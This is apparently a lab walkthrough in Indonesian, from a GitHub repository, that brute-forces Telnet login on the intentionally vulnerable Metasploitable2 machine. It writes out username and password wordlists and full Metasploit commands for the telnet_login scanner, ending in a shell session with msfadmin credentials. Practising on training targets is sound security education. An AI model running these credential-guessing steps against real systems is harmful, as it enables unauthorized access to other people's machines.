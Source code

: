 # Exploit Port 23 (Telnet)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%201.JPG)

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%202.JPG)

- Buat file dengan nano yang berisi daftar password untuk uji coba
```sh
nano password-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%203.JPG)

- Isi file tersebut dengan daftar password sebagai berikut. Kemudian tekan `Ctrl+O` lalu `enter` untuk menyimpan
```sh
qwerty
1234
admin
12345
msfadmin
123123
12345678
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%204.JPG)

- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%205.JPG)

- Cari modul untuk exploit Telnet
```sh
search telnet
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%206.JPG)

- Gunakan modul `auxiliary/scanner/telnet/telnet_login` untuk brute force Telnet login yang berada di nomor 34 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%208.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%209.JPG)

- Isi parameter yang dibutuhkan di modul tersebut
```sh
set RHOST <IP_metasploitable2>
set USER_FILE /home/kali/user-metasploitable2.txt
set PASS_FILE /home/kali/password-metasploitable2.txt
set STOP_ON_SUCCESS true
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%2010.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini kita berhasil login ke telnet dengan username `msfadmin` dan password `msfadmin` yang berada di session 1
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%2011.JPG)

- Akses session 1
```sh
sessions -i 1
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%2012.JPG)

- Kita juga bisa login via terminal dengan perintah berikut kemudian masukkan username dan password yang sudah berhasil didapatkan
```sh
telnet <IP_metasploitable2> 23
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Telnet/telnet%2013.JPG)